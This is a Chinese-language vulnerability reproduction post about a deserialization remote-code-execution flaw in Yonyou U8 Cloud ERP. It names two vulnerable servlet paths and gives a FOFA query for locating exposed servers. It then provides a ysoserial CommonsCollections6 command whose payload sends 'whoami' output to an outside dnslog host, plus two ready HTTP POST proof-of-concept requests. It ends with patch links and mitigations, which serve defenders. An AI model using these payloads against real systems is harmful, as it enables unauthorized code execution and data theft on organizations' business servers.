






# 用友U8 Cloud 反序列化RCE漏洞复现

### 0x01 产品简介

     用友U8 Cloud是用友推出的新一代云ERP，主要聚焦成长型、创新型企业，提供企业级云ERP整体解决方案。

### 0x02 漏洞概述

   用友U8 Cloud存在多处（FileManageServlet和LoginVideoServlet）反序列化漏洞，系统未将用户传入的序列化数据进行过滤就直接执行反序列化操作，结合系统本身存在的反序列化利用链，最终造成远程代码执行。

### 0x03 影响范围

    用友U8 Cloud 所有版本

### 0x04 复现环境

FOFA：app="用友-U8-Cloud"



### 0x05 漏洞复现

两处接口的反序列化漏洞路径：

```cobol
/servlet/~uap/nc.impl.pub.filesystem.FileManageServlet
/servlet/~uap/nc.bs.sm.login2.LoginVideoServlet
```

PS：用友的反序列化漏洞大部分cc6就可以直接打，post请求传入反序列化的二进制数据 就可以进行命令执行，ysoserial工具集成了多种cc链，感兴趣的可以研究研究

工具地址：[https://github.com/frohoff/ysoserial/releases/tag/v0.0.6](https://github.com/frohoff/ysoserial/releases/tag/v0.0.6 "https://github.com/frohoff/ysoserial/releases/tag/v0.0.6")

构造序列化数据(jdk1.8)

```cobol
java -jar ysoserial-all.jar CommonsCollections6 "ping `whoami`.l4z6nq7x.dnslog.pw" >4.ser
```

 PoC

 

```handlebars
POST /servlet/~uap/nc.impl.pub.filesystem.FileManageServlet HTTP/1.1
Host: your-ip
Content-Type: *

{{file(C:\Users\m1813\Desktop\4.ser)}}
```

```handlebars
POST /servlet/~uap/nc.bs.sm.login2.LoginVideoServlet HTTP/1.1
Host: your-ip
Content-Type: *

{{file(C:\Users\m1813\Desktop\4.ser)}}
```

PS：里面生成序列化数据文件的路径自行修改 







两个路径都可以打，自行测试 

### **0x06 修复建议**

**官方修复方案**：  
用友安全中心已发布官方补丁：  
https://security.yonyou.com/#/noticeInfo?id=400  
https://security.yonyou.com/#/noticeInfo?id=399

  
**临时修复方案：**  
使用ACL网络策略限制访问来源；  
使用防护类设备对/servlet/~uap/nc.impl.pub.filesystem.FileManageServlet和/servlet/~uap/nc.bs.sm.login2.LoginVideoServlet路径进行防护。
